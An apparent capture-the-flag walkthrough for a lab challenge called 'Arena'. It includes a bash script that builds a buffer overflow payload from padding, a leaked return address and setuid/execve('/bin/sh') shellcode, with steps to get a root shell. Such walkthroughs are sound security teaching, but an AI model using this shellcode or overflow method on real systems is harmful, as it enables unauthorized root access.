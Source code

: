 
# CTF 6 - Arena

## SETUP

1. Deploy your challenge instance
1. Open ***2 Terminals*** and connect to your instance with:

    ``` bash
    ssh {unix_username}@syssec-lab.s3.eurecom.fr -p {port_number}
    ```

1. Create an empty weapon file

    ```bash
    touch weapons
    ```

1. Create a file called "gen_weapon"

    ```bash
    vi gen_weapons
    ```

1. Copy the following code into "gen_weapon"

    ```bash
    if [ $# -eq 0 ]; then
        echo "Usage: $0 <hex_address>"
        exit 1
    fi

    hex_address="$1"

    hex_address=$(printf "%x\n" $((16#${hex_address} + 4)))

    if [ ${#hex_address} -eq 7 ]; then
        hex_address="0${hex_address}"
    fi

    hex_address="${hex_address#0x}"

    little_endian=""
    for ((i = ${#hex_address} - 2; i >= 0; i -= 2)); do
        little_endian="${little_endian}\x${hex_address:i:2}"
    done

    padding_length=8186

    shellcode="\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80"

    padding=$(printf 'A%.0s' $(seq "$padding_length"))

    exploit_string="98 99 $padding$little_endian$shellcode"

    echo -e "$exploit_string" > weapons
    ```

## ATTACK

1. In **Terminal 1** run the ***arena*** program

    ```bash
    ./arena/arena weapons
    ```

1. Copy paste the content of **[`player`](players)** in the terminal to create 1251 players.

    You will get the following message containing an ***address***.

    > Too many players... Kicking player '{name_of_the_player}' (0x923f470)

1. In **Terminal 2** run gen_weapons with the previous address

    ```bash
    bash bash gen_weapons 0x923f470
    ```

1. Then in **Terminal 1**:

    1. Press 1 to load weaponry

        ```bash
        What do you want to do? (1: load weaponry, 2: add new player, 3: fight, 4: quit) 1

        1 weapons loaded!
        ```

    1. Press 3 to start the fight. The figh migh end without popping the shell. In this case press 3 again to start the fight until the shell appear

    Once you get the shell, you can cat the flag

    ```console
    # cat arena/flag
    ```
